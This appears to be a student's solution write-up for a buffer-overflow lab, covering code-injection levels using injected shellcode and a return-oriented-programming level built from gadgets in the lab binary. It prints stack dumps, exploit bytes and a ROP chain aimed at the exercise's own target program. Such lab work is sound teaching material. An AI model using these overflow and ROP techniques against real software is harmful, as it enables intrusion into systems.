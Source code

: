 # Detailed solution

`p*l*.txt` contains the input, i.e., `./hex2raw < p*l*.txt | ./ctarget -q` can pass corresponding phase.

## Part I: Code Injection Attacks

### Level 1

The normal return address of `getbuf` should be `0x401976`, and the starting address for `touch1` is `0x4017c0`.

Try input `abcdefg`, and examine contents in the stack.

```
0x7ffffffa50d0:	0x61	0x62	0x63	0x64	0x65	0x66	0x67	0x00
0x7ffffffa50d8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffffffa50e0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffffffa50e8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffffffa50f0:	0xf8	0xdb	0xff	0xff	0xff	0x7f	0x00	0x00
0x7ffffffa50f8:	0x76	0x19	0x40	0x00	0x00	0x00	0x00	0x00
```

We can know it can accept at most 40 characters (bytes), so just input 40 padding bytes followed by `c0 17 40`.

### Level 2

I had thought that I just need to jump to the right exit, but there is a validation function... Well, it can't be that easy!

But this level is still not that hard. The hints just tell us what to do -- set the register (`%rdi`) to your cookie, and then use a ret instruction to transfer control to the first instruction in touch2. Well, to jump to a return address, just push it into the stack and return. Then we get the code we want to inject! 

Assemble and disassemble it, we get:

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

We can put the codes at the beginning of the input string, and replace the address in level 1 with the starting address for the input `0x5561dc78`. And now this level is passed.

### Level 3

Encode cookie `59b997fa` into a string, we get `35 39 62 39 39 37 66 61 00 `

I put it just before the return address. The code is similar to level 2, but to avoid the string is overwritten, `sub $0x28,%rsp` is added.

```assembly
0000000000000000 <.text>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 c7 c7 97 dc 61 55 	mov    $0x5561dc97,%rdi # addr of cookie string
   b:	68 fa 18 40 00       	pushq  $0x4018fa # starting addr of touch3
  10:	c3                   	retq   

```

## Part II: Return-Oriented Programming

### Level 2

First just take a look at the codes where our gadgets lie in. The hints just tell us to find `48 89`, `5*`.

```assembly
000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
# movq %rax %rdi
# ret

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
# popq %rax
# nop
# ret

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
# same as 273

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
# same as 219
```

Then what to do is crystal-clear: use `popq %rax` and `movq %rax %rdi` as a replacement for `mov $0x59b997fa,%rdi`.

So the stack is composed of: first paddings, then `4019ab`(pop),  then `59b997fa`(pop data), then `4019a2`(mov), then `4017ec`(touch2 address).

### Level 3

Skipped.

